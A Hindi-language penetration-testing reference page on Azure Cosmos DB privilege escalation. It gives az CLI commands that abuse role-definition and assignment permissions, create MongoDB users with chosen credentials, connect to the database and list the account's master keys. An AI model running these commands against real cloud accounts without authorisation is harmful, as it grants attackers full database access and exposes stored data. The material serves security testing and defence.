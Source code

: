 # Az - CosmosDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## CosmosDB Privesc
SQL Database के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../az-services/az-cosmosDB.md
{{#endref}}

### (`Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/write`, `Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/read`) & (`Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/write`, `Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/read`)

इन अनुमतियों के साथ आप एक उपयोगकर्ता को क्वेरी निष्पादित करने और डेटाबेस से कनेक्ट करने के लिए अनुमतियाँ देकर विशेषाधिकार बढ़ा सकते हैं। सबसे पहले एक परिभाषा भूमिका बनाई जाती है जो आवश्यक अनुमतियाँ और दायरे देती है।
```bash
az cosmosdb sql role definition create \
--account-name <account_name> \
--resource-group <resource_group_name> \
--body '{
"Id": "<Random-Unique-ID>", # For example 12345678-1234-1234-1234-123456789az
"RoleName": "CustomReadRole",
"Type": "CustomRole",
"AssignableScopes": [
"/subscriptions/<subscription_id>/resourceGroups/sqldatabase/providers/Microsoft.DocumentDB/databaseAccounts/<account_name>"
],
"Permissions": [
{
"DataActions": [
"Microsoft.DocumentDB/databaseAccounts/readMetadata",
"Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/items/read",
"Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/*"
]
}
]
}'
```
इसके बाद परिभाषा का असाइनमेंट एक उपयोगकर्ता को दिया जाता है। इसके बाद वह उपयोगकर्ता DefaultAzureCredential() कनेक्शन विधि का उपयोग करके क्वेरी निष्पादित कर सकता है।
```bash
az cosmosdb sql role assignment create \
--account-name <account_name> \
--resource-group <resource_group_name> \
--role-definition-id <Random-Unique-ID-used-in-definition> \
--principal-id <principal_id-togive-perms> \
--scope "/"
```
### (`Microsoft.DocumentDB/databaseAccounts/mongodbRoleDefinitions/write` && `Microsoft.DocumentDB/databaseAccounts/mongodbRoleDefinitions/read`)&& (`Microsoft.DocumentDB/databaseAccounts/mongodbUserDefinitions/write` && `Microsoft.DocumentDB/databaseAccounts/mongodbUserDefinitions/read`)

इस अनुमति के साथ, आप Azure Cosmos DB खाते के भीतर नए MongoDB भूमिका परिभाषाएँ बना सकते हैं। यह MongoDB उपयोगकर्ताओं के लिए विशिष्ट अनुमतियों के साथ कस्टम भूमिकाएँ परिभाषित करने की अनुमति देता है। इसका उपयोग करने के लिए RBAC कार्यक्षमताएँ सक्षम होनी चाहिए।
```bash
az cosmosdb mongodb role definition create \
--account-name <account_name> \
--resource-group <resource_group_name> \
--body '{
"Id": "<mydatabase>.readWriteRole",
"RoleName": "readWriteRole",
"Type": "CustomRole",
"DatabaseName": "<mydatabase>",
"Privileges": [
{
"Resource": {
"Db": "<mydatabase>",
"Collection": "mycollection"
},
"Actions": [
"insert",
"find",
"update"
]
}
],
"Roles": []
}'
```
आप Azure Cosmos DB खाते के भीतर नए MongoDB उपयोगकर्ता परिभाषाएँ बना सकते हैं। यह MongoDB डेटाबेस तक विशिष्ट भूमिकाओं और पहुँच के साथ उपयोगकर्ताओं की प्रोविजनिंग की अनुमति देता है।
```bash
az cosmosdb mongodb user definition create \
--account-name <account_name> \
--resource-group <resource_group_name> \
--body '{
"Id": "<mydatabase>.myUser",
"UserName": "<myUser>",
"Password": "<mySecurePassword>",
"DatabaseName": "<mydatabase>",
"CustomData": "TestCustomData",
"Mechanisms": "SCRAM-SHA-256",
"Roles": [
{
"Role": "readWriteRole",
"Db": "<mydatabase>"
}
]
}'
```
उसके बाद एक नया उपयोगकर्ता MongoDB के भीतर बनाया जाता है, हम इसे एक्सेस कर सकते हैं:
```bash
mongosh "mongodb://<myUser>:<mySecurePassword>@<account_name>.mongo.cosmos.azure.com:10255/<mymongodatabase>?ssl=true&replicaSet=globaldb&retrywrites=false"
```
### `Microsoft.DocumentDB/databaseAccounts/listKeys/action`
इस अनुमति के साथ, आप Azure Cosmos DB खाते के प्राथमिक और द्वितीयक कुंजी प्राप्त कर सकते हैं। ये कुंजी डेटाबेस खाते और इसके संसाधनों तक पूर्ण पहुंच प्रदान करती हैं, जिससे डेटा पढ़ने, लिखने और कॉन्फ़िगरेशन परिवर्तनों जैसी क्रियाएँ सक्षम होती हैं।
```bash
az cosmosdb keys list \
--name <account_name> \
--resource-group <resource_group_name>
```
{{#include ../../../banners/hacktricks-training.md}}

